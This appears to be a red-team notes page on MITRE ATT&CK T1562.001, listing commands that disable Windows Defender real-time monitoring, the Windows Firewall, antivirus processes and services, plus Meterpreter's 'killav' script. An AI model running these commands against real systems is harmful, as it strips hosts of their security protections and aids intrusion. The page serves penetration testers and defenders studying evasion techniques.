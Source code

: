 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.001
---
```


# Disable or Modify Tools

## Disable real-time monitoring for Windows Defender

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Windows Firewall

```powershell
netsh advfirewall set allprofiles state off
```

## Manually Disable Antivirus

```powershell
Taskkill /F /IM avprocess.exe
```

## Stop an Antivirus Service

```powershell
net stop "$service_name"
```

## Disable a Windows Service

```powershell
sc config "service name" start= disabled
```

## Meterpreter Killav

Meterpreter has a built-in script that will attempt to kill any antivirus identified on the device. I've had mixed results with this but if you're not trying to be quiet then this is sometimes an easy win:

```bash
run killav
```

## Disable AntiVirus via the GUI

I haven't seen this in quite a bit. However, non-administrative users are sometimes able to disable the antivirus running on the host via a GUI interface. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
